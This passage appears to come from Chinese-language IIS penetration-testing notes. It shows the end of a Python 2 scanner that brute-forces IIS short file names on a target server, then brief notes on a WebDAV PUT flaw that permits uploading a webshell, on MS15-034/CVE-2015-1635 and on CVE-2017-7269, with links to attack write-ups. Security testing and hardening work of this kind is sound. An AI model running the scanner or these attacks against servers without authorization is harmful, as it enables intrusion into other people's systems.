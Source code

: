 ```python
                            self.files.append(url + '~1' + ext)
                            self.msg_queue.put('[+] File ' + url + '~1' + ext + '\t[Done]')

                        else:
                            for c in 'abcdefghijklmnopqrstuvwxyz0123456789':
                                self.queue.put( (url, ext[:-1] + c + '*') )
                                if len(ext) < 4:    # < len('.as*')
                                    self.queue.put( (url, ext[:-1] + c) )

            except Queue.Empty,e:
                break
            except Exception, e:
                print '[Exception]', e


if __name__ == '__main__':
    if len(sys.argv) == 1:
        print 'Usage: python IIS_shortname_Scan.py http://www.target.com/'
        sys.exit()

    target = sys.argv[1]
    s = Scanner(target)
    if not s.is_vul():
        s.STOP_ME = True
        print 'Server is not vulnerable'
        sys.exit(0)

    print 'Server is vulnerable, please wait, scanning...'
    s.run()
    s.report()
```

# PUT漏洞

漏洞详情：对IIS的错误配置导致的写权限漏洞。WEB服务器拓展里设置了`WebDAV`为允许，同时网站权限配置开启了写入权限与脚本资源访问权限。通过该PUT漏洞可以写入webshell

方法:

https://www.codercto.com/a/48257.html

# MS15-034/CVE-2015-1635

漏洞详情： 远程执行代码漏洞存在于 HTTP 协议堆栈 (HTTP.sys) 中，当 HTTP.sys 未正确分析经特殊设计的 HTTP 请求时会导致此漏洞。成功利用此漏洞的攻击者可以在系统帐户的上下文中执行任意代码。 

攻击手段： https://www.freebuf.com/articles/system/64185.html

# CVE-2017-7269

 IIS远程代码执行漏洞 
